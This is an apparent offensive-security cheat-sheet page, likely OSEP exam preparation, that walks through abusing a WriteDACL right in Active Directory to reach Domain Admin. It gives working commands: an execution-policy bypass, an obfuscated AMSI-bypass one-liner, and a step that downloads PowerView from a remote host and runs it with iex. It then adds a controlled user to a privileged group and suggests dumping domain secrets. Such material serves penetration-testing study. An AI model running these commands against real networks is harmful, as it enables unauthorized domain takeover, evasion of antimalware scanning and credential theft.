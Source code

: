 # WriteDACL Exploitation

[[https://github.com/V0lk3n/OSEP-CheatSheet/blob/main/ActiveDirectoryAndExploit/WriteDACL-Exploitation/bloodhount-writedacl.png]]

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity will
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.
